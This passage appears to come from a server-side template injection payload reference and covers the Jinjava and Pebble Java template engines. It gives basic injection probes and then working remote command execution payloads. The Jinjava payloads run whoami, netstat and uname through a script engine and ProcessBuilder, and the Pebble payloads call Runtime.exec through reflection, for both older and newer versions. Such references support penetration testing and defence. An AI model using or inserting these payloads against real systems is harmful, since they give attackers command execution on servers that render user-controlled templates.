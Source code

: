 ### Jinjava - Basic Injection

```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Jinjava - Command Execution

Fixed by [HubSpot/jinjava PR #230](https://github.com/HubSpot/jinjava/pull/230)

```ps1
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

---

## Pebble

[Official website](https://pebbletemplates.io/)

> Pebble is a Java templating engine inspired by [Twig](./#twig) and similar to the Python [Jinja](./#jinja2) Template Engine syntax. It features templates inheritance and easy-to-read syntax, ships with built-in autoescaping for security, and includes integrated support for internationalization.

### Pebble - Basic Injection

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - Code Execution

Old version of Pebble ( < version 3.0.9): `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`.

New version of Pebble :

```java

{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}

```